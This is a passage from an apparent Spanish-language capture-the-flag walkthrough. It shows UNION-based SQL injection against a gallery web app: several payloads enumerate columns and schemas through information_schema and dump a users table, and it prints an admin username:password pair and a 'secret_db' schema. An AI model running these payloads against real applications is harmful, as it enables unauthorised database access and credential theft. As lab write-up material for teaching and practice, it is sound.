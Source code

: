 Info:

```
artworks
users
```

Vemos que nos sigue funcionando y hemos encontrado `2` tablas, por lo que vamos a ver que contiene la tabla `users` que es la que mas nos interesa.

```sql
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_name='users'-- -
```

Info:

```
id
password
username
```

Vemos que tiene `3` columnas, por lo que ahora sabiendo todo esto, ya si que podremos extraer la informacion de dicha tabla de la siguiente forma:

```sql
' UNION SELECT id, username, password, null, null FROM users-- -
```

O

```sql
' UNION SELECT null, CONCAT(username, ':', password), null, null, null FROM users-- -
```

La segunda opcion es para tenerlo mas ordenado, viendose de esta forma `username:password` y si hacemos esto veremos lo siguiente:

```
admin:2O]L)W{6c>Xx=Eu2#SV82%O%$#W}b3<
```

Podemos ver que obtuvimos solamente unas credenciales, pero no nos servira de mucho, si listamos esta vez todas las `DDBBs` veremos lo siguiente:

```sql
' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata-- -
```

Info:

```
mysql
information_schema
performance_schema
sys
gallery_db
secret_db
```
